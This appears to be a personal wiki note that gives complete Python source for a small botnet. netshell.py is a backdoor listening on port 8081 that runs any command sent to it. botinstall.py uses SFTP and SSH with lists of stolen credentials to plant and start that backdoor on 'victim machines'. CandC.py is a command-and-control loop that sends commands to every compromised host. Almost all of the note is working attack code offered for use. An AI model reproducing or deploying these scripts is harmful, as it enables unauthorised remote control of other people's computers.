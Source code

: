 ### netshell.py script
First create a server script utilizing the [[Python Sockets Library]] to run on victim clients that will keep an open listening port. (In this case 8081). This script will listen on a specified port for incoming traffic and then run the traffic as a command on the shell. When this script is deployed on a machine, you can connect via telnet
`telnet <victim ip> <port>

``` python
#!/usr/bin/python3

#a simple network shell to run command received from someone else
import socket, subprocess, select

# set up a listener socket for incoming commands
listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
listener.bind(('', 8081))
listener.listen(10)

#create a list for all client sockets
allsocks = [listener]

#store client info
client_info = {}

#loop to accept a connection and run a command that was received
while True:
	#now we have multiple sockets, let the os tell us which socket wants to talk
	ready, output, exceptions = select.select(allsocks, [], [])
	for sock in ready:
		if sock == listener:
			client, addr = listener.accept()
			print("New connection from", addr)
			allsocks.append(client)
			
			client_info[client] = {"addr": addr, "exit_requested": False}
		else:
			commbytes = sock.recv(1024)
			if not commbytes:
				print("Connection closed by", client_info[sock]["addr"])
				sock.close()
				allsocks.remove(sock)
				del client_info[sock]
			else:
				commlist = commbytes.decode().rstrip().split()
				print("Executing command", commlist)
				
				#change exit condition to true for the respective sock if "exit" is typed in client
				if commlist == ["exit"]:
					print("Exit command received from", client_info[sock]["addr"])
					client_info[sock]["exit_requested"] = True
				else:
				# use popen and communicate to run the command
					try:
						p1 = subprocess.Popen(commlist, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
						outbytes, errbytes = p1.communicate()
						result = "STDOUT:\n" + outbytes.decode() + "\nSTDERR:\n" + errbytes.decode()

					except OSError as e:
		          			result = "Error: " + str(e)

				sock.sendall(result.encode())
			
			
```


### botinstall.py script
The following script is used to transfer and deploy the netshell.py script on victim machines. The script takes a file path as an argument point towards a text file containing machines to compromise. The text file is organized as follows:
` ip, username, password \n`
This script uses the Python expect library
```python
#!/usr/bin/python3

import pexpect
import sys

def readlist(file_path):
	compromised_hosts = []
	with open(file_path, 'r') as file:
		for line in file:
			ip, username, password = line.strip().split()
			compromised_hosts.append((ip, username, password))
	print('Read compromised_hosts.txt')
	print('Installing backdoor on the following hosts: ' + str(compromised_hosts))
	return compromised_hosts
	

def installbots(ip, username, password):
	print('Executing payload on ' + ip)
	try:
		sftp_cmd = 'sftp ' + username + '@' + ip
		child = pexpect.spawn(sftp_cmd)
		child.expect('password')
		child.sendline(password)
		child.expect('sftp>')
		child.sendline('put netshell.py')
		child.expect('sftp>')
		child.sendline('exit')
		print("script uploaded")
		
		ssh_cmd = 'ssh ' + username + '@' + ip
		child = pexpect.spawn(ssh_cmd)
		child.expect('password:')
		child.sendline(password)
		child.expect('$')
		child.sendline('nohup python netshell.py &')
		child.expect('$')
		child.sendline('exit')
		print('shell started')
		
		
		with open('botted_hosts.txt', 'a') as file:
			file.write(ip + '\n')
	
	except Exception as e:
		print('error botting ' + ip + ' Error: ' + str(e))
	
 


hostfile = sys.argv[1]

hostlist = readlist(hostfile)

for ip, username, password in hostlist:
	installbots(ip, username, password)
print("botted_hosts.txt written")
```


### CandC.py Script
lastly this script sends commands to all compromised devices provided. This script takes the path to a text file containing compromised device information as the first argument. The file is to be formatted as follows:
` `


```python
#!/usr/bin/python3

import socket, sys

def read_bots(botfile):
	with open(botfile, 'r') as file:
		return [line.strip() for line in file]

def send_command(botip, command):
	try: 
		listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		#listener.settimeout(1)
		listener.connect((botip, 8081))
		listener.sendall(command.encode())
		
		data = listener.recv(1024)
		print("Result from bot: " + botip + "\n" + data.decode() + "\n")
	except Exception as e:
		print( "Error connecting to " + botip + " Error: " + str(e) + "\n")


botips = read_bots(sys.argv[1])
while True:
	command = input("Enter command: ")
		
	if command.lower() == 'exit':
		break
		
	for bot_ip in botips:
		result = send_command(bot_ip, command)
		

	
```